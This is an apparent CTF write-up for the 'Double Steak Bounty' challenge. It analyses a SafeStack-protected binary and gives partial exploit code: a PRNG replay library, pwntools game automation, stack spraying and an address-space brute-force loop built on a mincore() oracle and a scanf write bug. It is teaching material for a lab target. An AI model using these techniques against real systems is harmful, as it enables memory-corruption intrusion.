


# Double Steak Bounty - Exploit Write-Up
<p align="center">
  
</p>

## 0x0. Foreword

Hi there - welcome to this write-up!

If you want the best possible learning experience, we strongly encourage you to first clone the repository, install the challenge, and try to solve the challenge yourself.  

It’s a very fun, multi-layered CTF problem and you'll get much more value from this write-up if you've tried it first.

But - if you just want to read through the solution, or if you're stuck and curious - you're absolutely welcome to continue.  

Just be aware: the write-up below contains **many spoilers** about the inner workings of the challenge.

To help you decide, here’s a summary of the topics you’ll encounter in this write-up (click to expand):

<details>
<summary>Click to reveal spoilers / learning topics</summary>

### You will learn about:

- LLVM & SafeStack
  - Using `objdump` to disassemble
  - How LLVM SafeStack splits "safe" vs. "unsafe" stack allocations
  - Reading LLVM source to understand stack classification

- Vulnerability discovery
  - Building a memory oracle using `mincore()`
  - Finding a wrong `%llu` format specifier on a `short`
  - Predictable PRNG seeding with `time(NULL)`

- Game strategy
  - Basic math behind the game
  - Defining a greedy algorithm to win efficiently

- C/Python integration
  - Writing a shared C library to replay PRNG
  - Importing and using it with `ctypes` in Python
  - Rebuilding the server’s random stream client-side

- Stack spraying
  - Recursive stack frame allocation with signal values (`0xdeadbeef`)
  - Using `ulimit -s` and analyzing stack size limits
  - Linux ASLR, stack location, and user-space layout

- Memory brute-forcing
  - Estimating cost of probing memory space
  - Applying algebra ($`\mathbb{Z}_{10}`$ orbits, `gcd`, subgroup structure) to optimize brute-force step size
  - Implementing this optimization in Python

- Memory navigation
  - Locating a `0xdeadbeef` marker in memory
  - Navigating steak frame structures
  - Performing parallel binary search on address space to locate your frame
  - Understanding stack frame overwriting behavior

- Unsafe stack / thread-local storage
  - Disassembling SafeStack helper functions in the binary
  - Using `%fs` segment register to locate unsafe stack
  - Extracting unsafe stack addresses in GDB
  - Using `vmmap` (GEF) to verify findings

- Exploitation
  - Using the `scanf` vulnerability to overwrite `index` and adjacent `feedback` pointer
  - Hexdump-based analysis of the stack during exploitation
  - Using ROPgadget to find ROP gadgets
  - Leaking libc addresses with GOT/PLT
  - Understanding why certain gadgets appear (REX prefix, ABI conventions)
  - Final ROP chain to call `system("/bin/get_flag")` or spawn `/bin/sh`

---

**This is what you can learn here. Enjoy!**
</details>


## 0x1. Introduction

The challenge puts us in a role of a steak house visitor. We start at the main menu with the following options:


| Option                | Description                                                                                               |
|-----------------------|-----------------------------------------------------------------------------------------------------------|
| Order a steak         | Prompts us to specify how many steaks we want to order.                                 |
| Read a newspaper      | Asks which page of the newspaper we want to read. Displays a random phrase based on our choice.  |
| Play a game           | Opens a simplified Blackjack game.               |
| Leave the steakhouse  | Exits the program.                                                                     |

When choosing the **Play a game** option, we see another menu:

| Option                | Description                                                                                               |
|-------------------|-----------------------------------------------------------------------------------------------------------|
| Play a round      | Starts a game round. We compete against the computer in the **Magic Number 21** game.          |
| Leave the game    | Returns us to the main menu.                                                                          |
| Check the balance | Reveals our current balance. We start with 10 credits.                              |
| Read the rules    | Displays the game rules.                                                          |


From the challenge description, we know that a steak costs 1,000,000,000 \$ and we start with 10 \$. So the challenge clearly expects us to order a steak, meaning we need to either earn more credits or exploit the logic. 

At this point, we dive into the code analysis. 

---

## 0x2. Challenge and Vulnerability Analysis

### 0x2.1 SafeStack Behavior and Stack Layout

Inspecting the **vuln** binary with objdump, we see something interesting:

```bash
$ objdump -d vuln
...
00000000004026b0 <__safestack_init>:
  4026b0:	41 57                	push   %r15
  4026b2:	41 56                	push   %r14
...
...
0000000000402a70 <__get_unsafe_stack_ptr>:
  402a70:	50                   	push   %rax
  402a71:	64 48 8b 04 25 00 00 	mov    %fs:0x0,%rax
...
```

We discover that the binary contains two stacks: a **safe** and an **unsafe** one. After looking up the method names online, we discover that the binary uses SafeStack, a protection pass in the LLVM compiler infrastructure.

LLVM is a compiler infrastructure used by Clang and others. It handles the middle and backend stages of compilation, where code is optimized and translated into machine instructions. SafeStack is a protection mechanism implemented as a compiler pass in LLVM. It runs during compilation and splits the stack into two distinct regions to protect return addresses and other control-flow data from corruption.

This implies that traditional stack-based buffer overflows are no longer possible, since variables influenced by user input are placed on the unsafe stack, which is mapped in a separate memory region - typically somewhere between the `heap` and `libc`, but not on the regular stack. As a result, overflowing such variables doesn't allow overwriting return addresses or frame pointers, making typical stack smashing techniques ineffective.

<p align="center">
  
</p>

 LLVM performs static analysis on the intermediate representation (IR) before generating machine instructions. During this process, it performs a series of checks to determine whether each stack allocation is considered **safe** or **unsafe**. The logic behind these decisions is implemented in the  `SafeStack::IsSafeStackAlloca()` method (see line 274 in the [LLVM SafeStack source](https://llvm.org/doxygen/SafeStack_8cpp_source.html)).
 
If the allocation is **safe**, it lands on the regular stack as usual. If it is **unsafe**, it gets placed in a separate memory region. In short, an allocation is considered **unsafe** if:
- The pointer itself is stored or returned, which may leak its address outside the function.
- The pointer is passed to a function that might capture, store, or dereference it in unknown ways.
- It is accessed in a way that LLVM cannot statically prove to be within bounds.

Let's look at the `proceed_steaks()` function from the challenge:

```c
void proceed_steaks(unsigned stks)
{
    if (stks > 0)
    {
        unsigned long long steak[0x10] = {[0 ... 0xf] = 0xdeadbeef};
        proceed_steaks(stks - 1);
    }
}
```

The local array `steak[0x10]` is neither stored nor passed to another function, and its address is never exposed or used in a potentially unsafe way. Because of this, the SafeStack pass classifies it as **safe** and places it on the **safe** stack - which is the regular stack region where return addresses and other control-flow information are also stored.

Now let's have a look at the following code:

```c
short index = 0;
char (*feedback)[ENTRY_SIZE];
...
input("%llu", &index);
...
feedback = &guestbook[index];
...
read(0, feedback, ENTRY_SIZE);
```

`index` is passed to `input()`, exposing its address. Later, `scanf()` operates on this pointer, which may leak or modify the data arbitrarily.
A similar case occurs with `feedback`, a pointer to an array, which is passed as an argument to the `read()` function.
In both cases, SafeStack classifies these variables as **unsafe** due to pointer escape or indirect memory access.


### 0x2.2 The Memory Oracle

We observe the following **oracle** in the source code:


```c
int check(size_t ptr)
{
    unsigned char vec[32];
    return mincore((void *)(ptr & ~(0xfff)), 0x1000, vec);
}
```

The `check()` function takes a pointer and zeros out its lower bits, aligning it to a 4KB (4096-byte) page boundary. It then uses `mincore()` to check whether the memory page at that address is currently mapped in the calling process's address space.

This allows us to determine whether a page is mapped, enabling a brute-force search through the address space.

Later, we can use this as an oracle to tell us whether we've found the memory location containing the `0xdeadbeef` marker:

```c
if (!check(page) && (*((unsigned *)page) == 0xdeadbeef))
```

### 0x2.3 Unlocking Memory Write

Ordering a steak sets `order_filled` to `true` and lets us leave feedback.

```c
void order_steak()
{
    ...
        credits -= STEAK_PRICE * stks;
        order_filled = 1;
        proceed_steaks(stks);
    ...
}
```

However, the feedback function is vulnerable:

```c
void enjoy_time()
{
    ...
        short index = 0;
        char (*feedback)[ENTRY_SIZE];
    ...
        input("%llu", &index);
        if (index >= 0 && index < GUESTBOOK_SIZE) {
            feedback = &guestbook[index];
        }
    ...            
        read(0, feedback, ENTRY_SIZE);
    ...
}
```

First of all, a wrong format specifier `%llu` is used for a variable of type `short`. This can lead to a direct buffer overflow on the unsafe side of the stack.

Second, the `index` check is supposed to prevent writing outside the guestbook. However, if the user provides an invalid `index`, the check is skipped. Since `feedback` then points to an unintended memory location, this bug allows arbitrary memory writes.

### 0x2.4 Predictable PRNG

The game uses a pseudo-random number generator (PRNG) to deal cards. However, 
[`time(NULL)`](https://man7.org/linux/man-pages/man2/time.2.html) is used to seed the generator with the current time:

```c
void init()
{
    setbuf(stdout, NULL);
    srand(time(NULL));

    ...
}
```
This means we can replicate the same pseudo-random sequence on the client side by using the current time at the start of the exploit as the seed. This lets us predict the order of cards and reduces the number of rounds needed to afford a steak.

### 0x2.5 Winning the Game

Assuming we’ve replicated the PRNG, we start with 10 credits, and each win doubles our balance. That means we need to win

```math
\lceil \log_2(1000000000) \rceil = 30
```

rounds (out of 100 allowed) to afford a steak.

Knowing the PRNG, this seems doable.

### 0x2.6 Analysis Summary

Putting it all together, we worked out a rough structure for the exploit:

1. Win the game by replicating the random number sequence.
2. Order a steak. This places a signal value `0xdeadbeef` into memory.
3. Use the oracle to locate the address of the signal value, which is placed on the safe part of the stack.
4. After ordering the steak, the `order_filled` flag enables write access. We then use the `scanf()` vulnerability to (likely) locate the unsafe part of the stack. At this point, we have a rough plan and can begin the actual exploitation.

We visualize the program flow in [Appendix 0xa.3](#0xa3-challenge-program-flow).

---

## 0x3. First Steps

### 0x3.1 Cloning the RNG Stream

There are several ways to replicate the pseudo-random number stream. In our case, we chose to create a simple shared library in C, `rand_replay.c`:

```c
#include <stdlib.h>
#include <time.h>

void init() {
	srand(time(NULL));
}

int getValue()
{
	return rand() % 10 + 2;
}
```

Compile it using:

```bash
gcc -shared -fPIC -o rand_replay.so rand_replay.c
```


This replicates the `get_card()` method from the challenge. The library can be imported into Python using `ctypes` in a single line:

```python
help = CDLL("./rand_replay.so")
```

So we begin our exploit by establishing a connection and immediately generating 1,000 numbers from the PRNG:

```python
p = remote(host,port,sock=s)

rand_sequence = [] # We immediately replay the sequence on our side.
start = time.time()
rand_replay.init()
for i in range(1000):
    rand_sequence.append(rand_replay.getValue())
end = time.time()
```

This allows us to know the sequence of pseudo-random numbers in advance.

### 0x3.2 Understanding Game Rules

However, this does not immediately help us win the game. Let's recall the game rules:

The player competes against the computer and always starts the round. In each round, the player is given a random number between 2 and 11. The player accumulates cards and:

- Wins immediately if the total reaches exactly 21
- Can choose to stop at any total below 21
- Loses immediately if the total exceeds 21

If the player stops at any total below 21, the turn goes to the computer. The same rules apply to the computer. However, from the source code we know that the computer stops if its accumulated total is greater than 16 but less than 21.

```c
void play_game()
{
...
    if (sum_computer > 16)
        break;
...
}
```
Even though the behavior is predictable and the sequence of pseudo-random numbers is known, this knowledge alone is not sufficient to win the round. Let’s take an example:

We assume that the sequence of random numbers is 

```math
[9,8,5,7,7].
```

- The player begins and receives $`9`$ in the first step - we can continue.
- The player then gets $`8`$, bringing the sum to $`17`$.
- We know the next number will be $`5`$, which would bring the total to $`22`$, causing us to lose the round. So, we must stop with a sum of $`17`$.
- Now the computer begins its turn and receives $`5`$.
- Then it draws $`7`$, making its total $`12`$. Since that's less than $`16`$, it continues.
- The next number is another $`7`$, bringing the total to $`19`$. Now it stops.
- We had $`17`$, and the computer had $`19`$. So we lost the round.

What’s interesting here is that we could have stopped at $`9`$ instead. But in that case, the computer would have received $`8 + 5 + 7 = 20`$ and still won the round.

This leads us to an important realization: we must accept losing some rounds. However, the overall probability of this happening in a way that prevents us from reaching our goal is low - because we can simulate all possible move sequences in advance, and in most cases, at least one of them will result in a win.

### 0x3.3 Defining a Playing Strategy

This leads us to the definition of a strategy.
We know the entire sequence of upcoming random numbers, and we know the rules of the game.
However, we still need an algorithm that determines exactly which steps to take - when to draw and when to stop - so that the upcoming combinations will lead us to victory as often as possible.

We chose a greedy approach, and the strategy can be described in one sentence: 

    "What happens if we stop now?". 

If we’re lucky to win with just the first card, we take one and stop.
If we would lose with one, we try taking two and evaluate again.
We prefer wins over draws, and we accept losses only when neither a win nor a draw is possible.

To implement this, we define a simple game state:

```python
class GameState:
    def __init__(self):
        self.user_round_base_index = 1 
        self.credits = 10
        self.game_strategy = []                                                
```
`user_round_base_index` points to the user's first card in the global pseudo-random sequence in the current round.
We use `credits` to track our current balance, and `game_strategy` holds the list of strategies - one for each round.

Each round_strategy is a tuple `(x, status)`, where:
- `x` is the number of times the user should answer `"yes"` when asked whether to draw another card.
- `status` is a string describing the expected outcome or tactic - used internally to determine how to proceed in the exploit.

For example: `(2, "win by score")`. This means:
- Say `"yes"` twice - take two additional cards.
- The round ends in a win based on total score.
- The `"win by score"` label tells the exploit logic to double the credits and send the appropriate follow-up interaction:

```python
def play_win_round(p, yes_amount):                                                 
    """
    Submits a winning round to the server.

    Args:
        p (pwnlib.tubes.remote.remote): Active connection to the remote or local challenge server. 
        yes_amount (int): Number of times to answer "yes" when prompted to take a card.
    """
    p.sendlineafter(b'rules\x1b[0m', CHOICE_PLAY_ROUND)
    for i in range(0, yes_amount):
        p.sendlineafter(b'card?\n\x1b[0m', SAY_YES)
    p.sendlineafter(b'card?\n\x1b[0m', SAY_NO)

    ...
def main():
    ...    
    for round_strategy in game_state.game_strategy: 
        if round_strategy[1] == "win by score":
            play_win_round(p, round_strategy[0])
            ...
```

We defined the following round statuses for our strategy:
- `(x, "win by score")`
- `(x, "blackjack")`
- `(x, "draw")`
- `(x, "lose")`

Each status maps to a specific sequence of in-game actions.

In rounds where losing is inevitable, we intentionally take the minimal number of cards. This decision is based on three reasons:

- Simpler algorithm - fewer actions make the strategy easier to evaluate and maintain.
- Faster execution - we send fewer messages to the server, which speeds up the exploit runtime.
- Preserving randomness - by consuming fewer random numbers, we maximize the chance to reuse a winning sequence (originally used by the computer) in a future round.

The full logic for this decision-making process is implemented in our `create_round_strategy()` method.

### 0x3.4 Simulating and Sending Rounds

With the theory established, we now populate the game state and communicate the strategy to the server in just a few lines:

```python
game_state = GameState()
while (game_state.credits < BALANCE_GOAL):                                                 
    game_state.game_strategy.append(create_round_strategy(game_state, rand_sequence))
...
for round_strategy in game_state.game_strategy:                            
    if round_strategy[1] == "win by score":
        play_win_round(p, round_strategy[0])
    elif round_strategy[1] == "lose":
        play_loss_round(p)
    elif round_strategy[1] == "draw":
        play_draw_round(p, round_strategy[0])
    elif round_strategy[1] == "blackjack":
        play_blackjack_round(p, round_strategy[0])
```

This approach allows us to earn the necessary credits in a minimal number of rounds, guaranteeing a steak in every exploit run. We achieved this by breaking the pseudo-random number generator, leveraging a shared library, and solving the algorithmic challenge.

---

## 0x4. Stack Spraying
Now it's time to order a steak. Let’s examine what happens in memory:

<p align="center">
  
</p>

Ordering a steak creates a function frame on the stack. We refer to this as a "**steak frame**" going forward.

The steak frame is `0xa0` (160) bytes long and contains the following structure:

| Field                                     | Address / Info                     | Notes                                                                                  |
|------------------------------------------|------------------------------------|----------------------------------------------------------------------------------------|
| RBP (Base Pointer)                        | `0x00007ffe2759d5c8`               | Standard stack frame pointer                                                           |
| Return Address                            | `0x00007ffe2759d5c0`               | Points to previous `call`'s return    |
| Remaining Recursive Calls  | `0x00007ffe2759d5bc`               | The number of steaks left to process                                                  |
| Pattern Area           | Remaining bytes       | 32 words of `0xdeadbeef`, each 4 bytes, stored as 16 64-bit doublewords |

We know that the "Read Newspaper" feature allows reading 8 bytes from an arbitrary address and acts as an oracle - revealing whether the 64-bit word at the given address is equal to `0xdeadbeef`.

To effectively use this, we must better understand the memory layout of the target process.

The `vuln` binary runs within a CTF infrastructure hosted on a virtualized environment. These environments often enforce strict resource limits to contain abuse or unintentional overuse of system resources. In particular, the default maximum stack size is limited to 8192 KB. We can verify this on our system with:
```bash
$ ulimit -s
8192
$ ulimit --help
ulimit: ulimit [-SHabcdefiklmnpqrstuvxPT] [limit]
    Modify shell resource limits.
    
    Provides control over the resources available to the shell and processes
    it creates, on systems that allow such control.
```
This tells us that the stack cannot grow beyond 8 MB, which defines the boundaries of the region we are allowed to probe during exploitation.

Assuming a maximum stack size of:

```
8192 KB = 8,388,608 bytes = 0x800000 bytes
``` 

we aim to locate a double word (8 bytes), meaning we could need up to:
```
0x800000 / 0x8 = 0x100000 = 1,048,576
```

probes if we were to brute-force the entire stack region linearly - assuming we knew where it was.

However, **Address Space Layout Randomization** (ASLR) is enabled by default, so the actual position of the stack is randomized at runtime.

On 64-bit Linux systems, the canonical **user-space upper limit** is:

```
0x00007fffffffffff
```

In practice, the stack base (top) is randomized somewhere near:

```
0x00007ffffff00000
```

While the bottom of the randomized stack can go as low as:

```
0x00007ffbc0000000
```
This means the total possible ASLR entropy range for the stack is:

```
0x7ffffff00000 - 0x7ffbc0000000 = 0x43ff00000 = 18252562432 bytes ≈ 17 GiB.
```

In other words, we must perform `18252562432 / 8 = 2281570304` probes in the worst case. At `10` probes per second, this translates to `228157030` seconds = `3,802,617` minutes = `63,377` hours = `2,641` days ≈ `7.2` years. Clearly, this is not feasible within the scope of a typical CTF.


At this point, we recall the recursive nature of the `proceed_steaks()` method:

```c
void proceed_steaks(unsigned stks)
{
    if (stks > 0)
    {
        unsigned long long steak[0x10] = {[0 ... 0xf] = 0xdeadbeef};
        proceed_steaks(stks - 1);
    }
}
```
The method allows us to order more than one steak. The key idea is that each call to this method places a block of signal values (`0xdeadbeef`) into memory. Therefore, the most effective strategy is to order as many steaks as possible to fill the memory with these signal values.

Next, we need to estimate how many steaks we can afford.

- The game allows us to play up to 100 rounds.
- The stack size limit (`ulimit`) is set to 8192 KB (8 MB), but the program also needs stack space for other functions.
- Each steak frame occupies 160 bytes.
- A steak costs 1,000,000,000 credits, and our credits variable is an unsigned long long, so we can theoretically afford many.

Taking these factors into account, we conservatively estimate that around 8 MB of stack space is available for steak frames.

```math
\frac{8,000,000 \ \text{bytes}}{160 \ \text{bytes}} = 50,000 \ \text{steaks}
```

This is the maximum number of steak frames we could potentially place into memory.

We estimate the cost:

```math
50,000 \cdot 1,000,000,000 = 50,000,000,000,000 \le 2^{64} - 1 = 18,446,744,073,709,551,615,
```

which is the maximum value for an `unsigned long long`. So technically, we can afford this without any overflow concerns.

Now for the algorithmic part: we want to determine how many rounds we need to win in order to accumulate $`5 \cdot 10^{13}`$ credits - the amount required to afford 50,000 steaks at 1,000,000,000 credits each. 

We are looking for the smallest exponent $`x`$ such that:

```math
2^x >=5 \cdot 10^{13}
```

Solving for $`x`$: 

```math
 x = \lceil \log_2(5 \cdot 10^{13}) \rceil = 46.
```

So, we need to win at least 46 rounds to earn enough credits.

Given the 100 available game rounds, this is easily achievable with a working strategy that predicts the random numbers. 

Ordering more than ~50,000 steaks will result in a stack overflow due to stack space exhaustion and will crash the program.

```bash
> Step 0: Get rands and calculate the winning strategy...
Done. Credits check: 87960930222080
Amount rounds: 66
Random numbers used: 333
Time to generate rands: 0.00032639503479003906 secs
```
### 0x4.1 Ordering Steaks

Ordering 50,000 steaks creates a huge pattern block in memory:

<p align="center">
  
</p>

At this point, we know that we placed 8 MB of signal frames into memory, and our goal now is to find any of the `0xdeadbeef` values. We know that the safe stack is located somewhere between `0x00007ff000000000` and `0x00007fffffffffff`. This is the space we are going to scan.

### 0x4.2 Memory Scanning - Finding any of the `0xdeadbeef`-s

Scanning the area in `0x8`-byte steps is not effective. We need a more effective stepping strategy such that:

- we are guaranteed to encounter the `0xdeadbeef` value during the scan,
- the number of checks is minimized,
- and the scan completes within a reasonable time.

For this reason, we consider a different approach. Let's focus on the stack area in memory:

<p align="center">
  
</p>

The whole area filled with `0xdeadbeef` spans `50,000 * 0xa0 = 0x7a1200` bytes. Look at the graphic above. If we scan using `0x100000` steps, we hit the steak area at least 7 times. If we shift the scanning range slightly down (i.e., towards higher addresses), we get one more hit - 8 total. So with a step size of `0x100000`, we’re guaranteed to hit it 7-8 times no matter what. Let's focus on the 7 that always happen. Here's what the steak frame looks like, with line numbers for reference:

<p align="center">
  
</p>

Let $`L`$ be a line number, $`1 \le L \le 10`$. 

A "line" here refers to a 16-byte aligned row of memory, so moving by one line corresponds to adding `0x10` to the address.

Adding `0x100000` to the current address effectively jumps over 
```
0x100000 / 0x10 = 0x10000 = 65536
```

lines. So, the next line number becomes:

```math
(L + 65536) \bmod 10 = (L + 6) \bmod 10.
```

Let’s look at what happens in the next few steps:
- $`L`$
- $`(L + 6) \bmod 10`$
- $`(L + 12) \bmod 10 = (L + 2) \bmod 10`$
- $`(L + 18) \bmod 10 = (L + 8) \bmod 10`$
- $`(L + 24) \bmod 10 = (L + 4) \bmod 10`$
- $`(L + 30) \bmod 10 = L`$

In terms of group theory, this defines the orbit of $`L`$ under repeated addition of $`6 \bmod 10`$ in the ring $`\mathbb{Z} / 10 \mathbb{Z}`$:

```math
\mathbb{Z}_{10}  = \{0, 1, 2, \ldots, 9\} = \mathbb{Z} / 10 \mathbb{Z}.
```

The orbit is

```math
\mathrm{Orb}_{\langle 6 \rangle}(L) = \{ (L + 6k) \bmod 10 \mid 0 \le k < 5 \} = \{L, L+6, L+2, L+8, L+4\} \bmod 10.
```

Since 
```math
0x10000 = 65536 \equiv 6 \pmod{10},
```
this verifies why adding `0x100000` bytes to the address corresponds to making steps of 6 lines during the brute-force.

Reordering the orbit elements, we can see that we visit either all even or all odd lines:

```math
\{L, L+2, L+4, L+6, L+8\} \bmod 10.
```

If we land on an odd line of the stack, the cycle looks like:

```math
1 \to 7 \to 3 \to 9 \to 5 \to 1. 
```

If we land on an even line, the cycle is:

```math
2 \to 8 \to 4 \to 10 \to 6 \to 2.
```

(Note: line 10 is equivalent to line 0 in $`\mathbb{Z}_{10}`$.)

Each of these is a cycle of length 5.

Since we hit the stack area at least 7 times (we perform at least 7 brute-force steps), this guarantees that we either visit all odd lines or all even lines of the stack frame (see the graphics above). This means that even if we start on line 9 or 10 - which do not initially contain the `0xdeadbeef` marker - we will land on a line that does contain `0xdeadbeef` in one of the next brute-force steps.

In this way, we improved the brute-force efficiency by a factor of: `0x100000 / 0x10 = 0x10000 = 65536`.

Can we do better? Yes, we can. Let us explore why this worked so well with `0x100000`:

### 0x4.3 Brute-force Optimization (Math)

In group theory, the **order of a group** is the number of elements in the group.
If $`G`$ is a group, then for $`a \in G`$, the **order of the element $`a`$ in group** is the number of distinct elements in the subgroup generated by $`a`$:

```math
\mathrm{ord}(a) = \vert \langle a \rangle \vert = \vert \{a^k \mid k \in \mathbb{Z}\} \vert \quad (\text{for multiplicative groups}).
```

When working in the additive group $`\mathbb{Z}_{10}`$, where the group operation is addition modulo $`10`$, we consider elements $`L \in \mathbb{Z}_{10}`$.

Since $`10 \equiv 0 \pmod{10}`$, it is equivalent to view $`L \in \{0, 1, \dots, 9\}`$. 

In this setting, the order of $`L`$ is the number of distinct elements of the form:

```math
\mathrm{ord}(L)  = \vert \{kL \bmod 10 \mid k \in \mathbb{Z}\} \vert .
```

$`\mathbb{Z}_{10}`$ is a cyclic group of order $`10`$, with $`1`$ as a generator. This implies two facts:
- Any subgroup of $`\mathbb{Z}_{10}`$ must have an order dividing $`10`$,
- For each divisor $`d`$ of $`10`$, there is exactly one subgroup of order $`d`$.

The divisor $`d`$ of $`10`$ are $`\{1,2,5,10\}`$, so the subgroups of $`\mathbb{Z}_{10}`$ have $`1,2,5`$ or $`10`$ elements. 

Let us list them, together with the orbits they define under brute-force addition:

|If $`L`$ is  | $`\gcd(L,10)`$  |$`\mathrm{ord}(L)`$ = Group size   |Subgroup                                       | Line hit sequence (cycle)      |
|-          |-              |-                                      |-                                              |-                                            |
|1          | 1             | 10                                    | $`\{0,1,2,3,4,5,6,7,8,9\} = \mathbb{Z}_{10}`$   | $`(0,1,2,3,4,5,6,7,8,9)`$                       |
|2          | 2             | 5                                     | $`\{0,2,4,6,8\}`$                               | $`(0,2,4,6,8)    `$                     |
|3          | 1             | 10                                    | $`\mathbb{Z}_{10}`$                             | $`(0,3,6,9,2,5,8,1,4,7) `$                   |
|4          | 2             | 5                                     | $`\{0,2,4,6,8\}`$                               | $`(0,4,8,2,6) `$                 |
|5          | 5             | 2                                     | $`\{0,5\}`$                                     | $`(0,5) `$               |
|6          | 2             | 5                                     | $`\{0,2,4,6,8\}`$                               | $`(0,6,2,8,4)`$             |
|7          | 1             | 10                                    | $`\mathbb{Z}_{10}`$                             | $`(0,7,4,1,8,5,2,9,6,3) `$           |
|8          | 2             | 5                                     | $`\{0,2,4,6,8\}`$                               | $`(0,8,6,4,2)  `$         |
|9          | 1             | 10                                    | $`\mathbb{Z}_{10}`$                             | $`(0,9,8,7,6,5,4,3,2,1) `$       |
|10         | 10            | 1                                     | $`\{0\}`$                                       | $`(0) `$     |

As shown in the table, the elements $`2`$, $`4`$, $`6`$, and $`8`$ all generate the same subgroup $`\{0, 2, 4, 6, 8\}`$, which is the unique subgroup of size $`5`$ in $`\mathbb{Z}_{10}.`$

This subgroup is attractive for brute-force optimization. In our exploit, we do not aim to visit the full subgroup, nor perform a complete cycle - we only perform two hits per address range. By choosing any generator of this subgroup, we ensure that these two hits will both lie within the "good cycle" (i.e., $`\{0,2,4,6,8\}`$), guaranteeing that `0xdeadbeef` will be hit.


For example, taking the line step $`8`$, even if we initially hit lines $`9`$ or $`10`$ of the steak frame, we will hit lines $`7`$ or $`8`$ in the next check. Both of these contain `0xdeadbeef`.

In fact, there is a theorem from number theory which states:

```math
\mathrm{ord}(L) = \frac{10}{gcd(L, 10)}.
```

Since $`\mathbb{Z}_{10}`$ has only one subgroup of size $`5`$, every element $`L`$ with $`\gcd(L, 10) = 2`$ necessarily generates this subgroup: $`\{0, 2, 4, 6, 8\}`$. 

In other words, if we aim to land in the subgroup $`\{0,2,4,6,8\}`$ of $`\mathbb{Z}_{10}`$ during the brute-force iterations, we must choose $`L`$ such that $`gcd(L,10) = 2`$. 


Let us check this for the step size corresponding to `0x100000`: since

```math
0x100000 / 0x10 = 0x10000 = 65536 \equiv 6 \ (\bmod 10),
```

we compute:

```math
gcd(6, 10) = 2.
```

Therefore, if $`L = 6`$, then:

```math
\mathrm{ord}(6) = \frac{10}{gcd(6,10)} = \frac{10}{2} = 5,
```

meaning that $`6`$ generates a subgroup of $`\mathbb{Z}_{10}`$ with $`5`$ elements.
We could verify this by inspecting the two cycles we saw above.

From this, we know that the brute-force steps `0x100000` and `0x600000` will generate the same line hit sequence, as:

```math
0x100000 \equiv 0x600000 \bmod 10.
```

We also know that the steps `0x100000` and `0x200000` will generate the same group, because:

```math
 0x100000 \bmod 10 = 1048576 \bmod 10 = 6,
```

and

```math
0x200000 \bmod 10 = 2097152 \bmod 10 = 2.
```

This means that if we choose a brute-force step arbitrarily large, and if the corresponding line number $`L`$ satisfies $`\gcd(L,10) = 2`$, we can apply the previous observations to achieve the most effective brute-force step possible.

On the other hand, it makes sense to hit the steak area at least twice, because with only one hit, there remains a $`20\%`$ chance of missing `0xdeadbeef`. This implies that the maximal brute-force step must be less than or equal to half the steak space size.


Let us now bridge this insight to the actual exploit.


### 0x4.4 Brute-force Optimization (Python)


Let `STEAK_TOTAL_SIZE` be the total amount in bytes of the space occupied by our steak frames, and let `HIT_CONFIDENCE` be the number of times we want to hit the steak area during brute-force.

Then the initial candidate for the maximal possible brute-force step is:


```math
\texttt{BF_STEP} = \left\lfloor \frac{\texttt{STEAK_TOTAL_SIZE}}{\texttt{HIT_CONFIDENCE}} \right\rfloor \ \& \sim 0xf.
```

We clear the lowest 4 bits to ensure that the step size is a multiple of `0x10`, which matches the alignment of stack lines. Without this alignment, we might accidentally skip over the entire stack area without hitting any valid line.

We compute the corresponding line number:
```python
L = BF_STEP // 0x10
```

In order to land in the $`\{0,2,4,6,8\}`$ subgroup, we must choose $`L`$ such that $`\gcd(L,10) = 2`$. We can do this as follows:
```python
while gcd(L, 10) != 2:
    L -= 1
```
Since there are only 10 elements in $`\mathbb{Z}_{10}`$, the loop is guaranteed to terminate after at most 9 iterations.

After finding the line number $`L`$ with $`\gcd(L,10) = 2`$, we reconstruct the corresponding brute-force step:
```python
BF_STEP = L * 0x10
```
This ensures that our brute-force step is both maximal (subject to alignment and hit constraints) and optimal in terms of the cycle structure we analyzed above.

Example: if the stack area occupies:

```
STEAK_TOTAL_SIZE = 0xa0 * 50,000 = 0x7a1200
```

and we want to definitely hit the 0xdeadbeef marker, we choose:
```
HIT_CONFIDENCE = 2
```

Then:
```math 
\texttt{BF_STEP} = \left\lfloor \frac{0x7a1200}{2} \right\rfloor \ \& \sim 0xf = 0x3d0900.
```
The corresponding line number is:
```
L = 0x3d0900 / 0x10 = 0x3d090 = 250,000
``` 

The $`\gcd(250000,10) = 10`$, meaning that we would hit the steak area twice, but only in the same steak line - meaning we are not covering different lines. Thus, the probability of hitting the `0xdeadbeef` marker would remain suboptimal ($`p=0.8`$ in this example).

We decrease by 16, making one step in the `while` loop:
```
gcd(0x3d080,10) = gcd(249984,10) = gcd(4,10) = 2.
```

We multiply by `0x10` to restore the brute-force step:
```
BF_STEP = 0x3d0800
```
This is the **maximum possible brute-force step** that ensures that we will hit the `0xdeadbeef` marker at least once, regardless of the memory layout, in every exploit run for a fixed `ulimit -s` stack size.

The corresponding lines in the exploit are:

```python
    start_addr = 0x7ffffffff000 # last mappable user-space address, 4KB aligned
    start_addr = start_addr - 0x10 # in theory, 0xdeadbeef entry could be here
    end_addr = 0x7ff000000000 # stack is located somewhere at 0x7ff...
    ...
    addresses = list(range(start_addr, end_addr, -BF_STEP)) # scan in the decreasing order

    steak_not_found = 1
    some_deadbeef_address_str = ""

    scan_progress = tqdm(addresses, desc="Brute-forcing address", dynamic_ncols=True)# Progress bar

    for addr_int in scan_progress:
        payload = hex(addr_int)
        scan_progress.set_description(f"Trying {payload}")

        p.sendlineafter(b'steakhouse\x1b[0m', CHOICE_READ_NEWSPAPER)
        p.sendlineafter(b'read?\x1b[0m', payload.encode())
        line = p.recvline()
        line = p.recvline()

        if b"Here" in line:
            some_deadbeef_address_str = payload
            steak_not_found = 0
            break
```

## 0x5. Locating the Return Address

At this moment, we hit `0xdeadbeef`. To locate our position in memory, we need to understand which steak frame this is, and establish reference points to help us navigate memory.

The `vuln` binary is constant during execution with the same input data: Position Independent Executable (PIE) is not enabled, and memory allocations are predictable.

We know that the `main()` function frame creates an `init()` function frame, then creates the `enjoy_time()` function frame - this forms the initial part of the stack layout, up to the point just before we order 50,000 steaks.

